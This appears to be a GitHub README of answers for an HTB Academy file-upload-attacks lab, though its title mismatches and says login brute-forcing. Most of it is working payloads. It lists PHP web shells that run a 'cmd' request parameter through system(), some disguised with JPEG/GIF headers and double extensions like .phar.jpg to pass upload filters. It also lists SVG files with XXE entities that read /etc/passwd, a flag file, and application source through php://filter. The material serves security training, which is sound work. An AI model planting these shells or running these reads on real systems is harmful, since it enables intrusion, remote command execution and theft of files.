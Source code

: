# LOGIN-BRUTE-FORCING

# Useful Links
[PHP extension list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)

# Useful Shells

## Question 1
shell.php
```php
<?php system('hostname'); ?>
```

## Question 2
shell.php
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 3
shell.php
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 4
shell.phar
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 5
shell.phar.jpg
```php
����^@^PJFIF^@^A^A^A^A,^A,^@^@��^@dExif^@^@II*^@^H^@^@^@^B^@^N^A^B^@-^@^@^@&^@^>
<?php system($_REQUEST['cmd']);?>
```

## Question 6
shell.phar.gif
```php
GIF8
<?php system($_REQUEST['cmd']);?>
```
shell.gif.phar
```php
GIF8
<?php system($_REQUEST['cmd']);?>
```

## Question 7
shell.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
shell2.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```
shell3.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resourc>
<svg>&xxe;</svg>
```

## Skills Assessment - File Upload Attacks

shell.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

shell2.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=common-functions.php"> ]>
<svg>&xxe;</svg>
```

shell.phar.jpeg
```php
����^@^PJFIF^@^A^A^A^A,^A,^@^@��^@dExif^@^@II*^@^H^@^@^@^B^@^N^A^B^@-^@^@^@&^@^>
<?php system($_REQUEST['cmd']);?>
```

# Useful Code
[upload.php](https://github.com/r4fik1/HTB_Academy/blob/main/HTB_File_Upload_Attacks/Skill%20Assessment%20-%20File%20Upload%20Attacks/upload.php)

[common-functions.php](https://github.com/r4fik1/HTB_Academy/blob/main/HTB_File_Upload_Attacks/Skill%20Assessment%20-%20File%20Upload%20Attacks/common-functions.php)
